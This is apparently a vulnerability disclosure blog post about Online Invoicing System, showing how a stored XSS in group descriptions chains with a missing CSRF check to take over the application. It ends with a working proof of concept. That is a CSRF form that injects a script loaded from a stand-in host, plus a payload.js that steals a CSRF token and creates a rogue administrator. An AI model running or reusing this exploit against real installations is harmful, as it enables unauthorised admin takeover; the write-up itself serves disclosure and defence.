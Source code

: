 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System | Stored XSS via CSRF in /admin/pageEditGroup.php -> Application Takeover
tags: [CVE-Writeup, XSS, CSRF, Chaining]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 4.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via chaining Stored XSS + CSRF
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System fails to adequately sanitize fields for HTML characters upon an administrator creating a new group thus resulting in Stored Cross-Site Scripting. The caveat here is that an attacker would need administrative privileges in order to create the payload thus completely mitigating the privilege escalation impact as there is only one high privileged role. However it was discovered that the endpoint which is responsible for creating the group lacks CSRF protection as well making it possible for an attacker to chain both of these vulnerabilities eventually resulting in taking over the application.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

`admin/pageEditGroup.php` returns a form which allows an administrator to create a new group. This form has two fields which accept user input (`Group Name` & `Description`) while the rest of the fields are checkbox and radio forms.

To learn more about how this form works, lets take a closer look at the code which is responsible.

**admin/pageEditGroup.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/formcode.png)

As shown on Lines 3 & Lines 4, the value of the user inputs retrieved from the body of the POST request are first passed into the `makeSafe()` function before being initialized as the value of their respective variable. The `makeSafe()` function was taken apart in great detail in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, `makeSafe()` is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

While `makeSafe()` is helpful for preventing SQL Injections, it however is not responsible for sanitizing any user input which contains HTML characters. As a result of this, the unsanitized user input is stored directly in the database as shown on Line 35:

~~~php
sql("insert into membership_groups set name='{$name}', description='{$description}', allowSignup='{$allowSignup}', needsApproval='{$needsApproval}'", $eo);
~~~

However before declaring this Cross-Site Scripting, lets see if there is any sanitization done on the values before reflecting them onto the page.

**admin/pageViewGroups.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/viewgroup.png)

As shown on Line 1 above, a SQL query is executed which will return the values from the following columns:

~~~
groupID - Column 0
name - Column 1
description - Column 2
~~~

Afterwards a while loop is constructed in order to iterate and retrieve the values returned from each column. The index in which `$row` is returning corresponds to the position of the columns listed above, for example `$row[0]` will be the `groupID` while `$row[1]` will be the `name` and finally `$row[2]` will be the `description`.

As shown on Line 6, the application directly reflects the values of `$row[0]` and `$row[1]` onto the page. Before reflecting the value of `$row[2]`, it is passed into the `thisOr()` function in which the [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) explained the logic of the function. 

TL;DR: `thisOr()` performs a ternary operation on the value of the passed in argument. If the value is not empty it will be directly returned. However in cases where the value is empty, the `&nbsp` HTML entity will be returned (which is a space). This function does nothing to sanitize any input being reflected onto the page.

Due to this, we can now confirm that the application would be vulnerable to Stored Cross-Site Scripting.

While this can be considered an issue, any impact here is severely mitigated as unlike other applications such as Wordpress which provide multiple tiers of high privileges such as Moderator, Admin, Super Admin, etc, as this application only has one admin level. This means that in order for an attacker to succesfully exploit the application, they would either need to convince the application's admin to input the XSS payload which is very unlikely or have an account with admin privileges themselves which defeats the purpose of exploiting the application via this way.

However when viewing the request which is responsible for creating the group, an astute attacker may observe that there appears to be no form of CSRF protection:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/request.png)

As reviewed in an [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) , the application does not utilize `Same Site Cookies` meaning this endpoint would be vulnerable to Cross-Site Request Forgery.

While this is could be considered a serious issue, it is not the end of the world for the application as the attacker only has the ability to CRUD groups. The attacker would be unable to add themselves directly into a group and moreso would be unable to create a group which has administrative privileges as the application only limits these types of privileges to the default Admin's group.

To recap where an attacker currently stands in the context of exploitation:
- Application is vulnerable to Stored XSS however an attacker which already has administrative privileges is required to create the initial payload.
- Application is vulnerable to CSRF which would allow an attacker to create custom groups.

In order for an attacker to gain successful remote exploitation on this application, they are able to chain the two vulnerabilities together to leverage a complete takeover. The attacker will need to first create a simple CSRF proof of concept payload which will look similar to:

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="randomgroup" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

In the CSRF proof of concept above, the attacker will need to replace either the value of the `name` parameter or `description` parameter with their payload. However it would be a good idea to test this locally first as the attacker will notice that the `name` field has a character length restriction in the database:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/sql.png)

As shown above, the `name` column is of type `VARCHAR(100)` meaning it will only take up to 100 bytes. As an ASCII character is 1 byte, the maximum characters you could store in this column would most likely be 100. While this is not a dealbreaker, it can definitely truncate the attacker's payload and ruin the exploitation process. However an attacker could also use the `description` parameter as it's value is directly reflected on the page as well. Looking at the `description` column is of type `text` and is able to take any amount of characters, making it the smarter choice here.

After updating the `description` parameter to contain the attacker's payload in the description above, the proof of concept is ready to be hosted.

Upon hosting the proof of concept and having the application's admin browse to it, the CSRF vulnerability will be triggered and a group will be created with the description containing an XSS payload.

Finally when the application's admin browses to the Groups List (located at `/admin/pageViewGroups.php`), the XSS payload will be executed thus resulting in a successful chain. As the XSS payload will be executed in the context of the application, the Same Origin Policy is bypassed therefore allowing an attacker to leverage their privileges to the highest available and effectively takeover the application.


# Proof of Concept

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="<script src=//your-app.pw/payload.js></script>" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

**Replace `your-app.pw/payload.js` found in the value of the description parameter above.**

~~~javascript
//payload.js

// create admin with username attacker1337
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=&memberID=attacker1337&password=attacker1337&confirmPassword=attacker1337&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=&custom2=&custom3=&custom4=&comments&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~

The Javascript snippet above will create a new administrator with the username and password being `attacker1337`.

